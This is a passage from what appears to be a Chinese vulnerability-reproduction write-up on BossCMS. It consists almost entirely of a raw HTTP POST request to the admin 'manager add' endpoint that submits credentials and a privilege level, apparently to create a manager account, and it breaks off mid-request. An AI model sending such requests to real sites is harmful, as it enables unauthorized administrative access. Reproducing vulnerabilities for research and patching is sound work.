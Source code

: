## 漏洞复现

构造请求包：

[![](assets/1701222510-326824e37cb78e56e46b6969430b493b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128162041-04f72f8a-8dc7-1.png)

```bash
POST /admin/?mold=manager&part=manager&func=add HTTP/1.1
Host: bosscms
Content-Length: 1959
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://bosscms
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB067fgIWBKtHI4Gy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://bosscms/admin/?mold=manager&part=manager&func=edit
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="username"

123
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="password"

123
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="passwords"

123
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="level"

2
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="department"
```